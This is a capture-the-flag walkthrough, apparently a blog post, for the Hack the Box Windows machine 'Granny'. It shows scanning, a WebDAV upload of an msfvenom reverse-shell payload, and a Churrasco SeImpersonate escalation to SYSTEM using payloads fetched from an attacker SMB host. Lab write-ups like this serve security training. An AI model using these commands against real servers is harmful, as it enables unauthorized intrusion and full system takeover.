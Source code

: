 ```yaml
---
title: Hack the Box - Granny
date: 2022-08-16 21:40:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Granny](/assets/HackTheBox/Granny/Granny.png)

# Granny Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.15|Granny|Windows|

## Path to Exploitation

To compromise this machine, we intially leverage a mis-configured web server that allows uploading malicious files. We upload a reverse shell payload to get our intial foothold. To elevate our privileges, we'll take advantage of our user's privileges on the machine, specificlly, seImpersonatePrivilege.

# Granny Enumeration

## Full Port Scan

```bash
nmap 10.10.10.15 -p- -oA Granny/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|80|http|

## Service Scan

```bash
nmap 10.10.10.15 -p 80 -sC -sV -oA Granny/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|IIS httpd 6.0|

# Website

![Site Landing Page](/assets/HackTheBox/Granny/site-page.png "Site Landing Page")

## Nikto Scan

```shell
$ nikto -h http://10.10.10.15
```

Results:
```cmd
---[SNIP]---
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH                                                   + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server. 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.                                                  
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (UNLOCK PROPFIND PROPPATCH COPY MKCOL SEARCH LOCK listed as allowed)
---[SNIP]---
```

We see the PUT method is allowed and that WebDAV is enabled. We can use davtest to check if we can upload files to the site.

## DavTest

```shell
$ davtest -u http://10.10.10.15
```

Results:
```cmd
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.php
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.cfm
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.html
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.jhtml
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.pl
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.jsp
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.txt
Executes: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.html
Executes: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.txt
```

We see that we can upload/execute html and txt files.

## Shell on Host

We can use this information to create our shell payload:

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx -o evil.html
```

We can then use Cadaver to upload the payload
```shell
$ cadaver http://10.10.10.15
```

But before executing, we need to trick the server into executing our .aspx payload. We need to move our .html file to a .aspx file on the server.

![Cadaver Tool](/assets/HackTheBox/Granny/cadaver.png "Using Cadaver")

After browsing to our payload file, we see we have caught a reverse shell as the network service account

![Intial Foothold](/assets/HackTheBox/Granny/initial-foothold.png "Initial Foothold")

# Privilege Escalation

Once on the machine we enumerate our user's privileges

```shell
C:\> whoami /priv
```

![User Privileges](/assets/HackTheBox/Granny/user-privs.png "User Privileges")

We see the seImpersonatePrivilege is enabled. We need to check the operating system version to determine which exploit we can use. 

```shell
C:\> systeminfo
```

![System Info](/assets/HackTheBox/Granny/sys-info.png "System Info")

We see the OS version is Microsoft Server 2003, we can
use the Churrsaco exploit located [here](https://github.com/Re4son/Churrasco)

## Getting SYSTEM

Setup and SMB Server on our Kali machine 
```shell
$ sudo impacket-smbserver share .
```

Upload the file using the SMB server
```shell
C:\> copy \\10.10.14.10\share\churrasco.exe
```

Test the exploit:
```shell
C:\> churrasco.exe -d "whoami"
```
![whoami as SYSTEM](/assets/HackTheBox/Granny/system-whoami.png "whoami as SYSTEM")

We see our command executed as SYSTEM

We can now use the exploit to launch a reverse shell payload

Create the payload:

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o evil.exe
```

Upload the file to the machine:

```shell
C:\> copy \\10.10.14.10\share\exil.exe
```

Execute the payload:

```shell
C:\> churrasco.exe -d "C:\temp\evil.exe"
```

![Exploit](/assets/HackTheBox/Granny/exploit.png "Launch the Exploit")

Checking our listener we see we have a shell running as SYSTEM

![Getting SYSTEM](/assets/HackTheBox/Granny/priv-esc.png "Getting SYSTEM")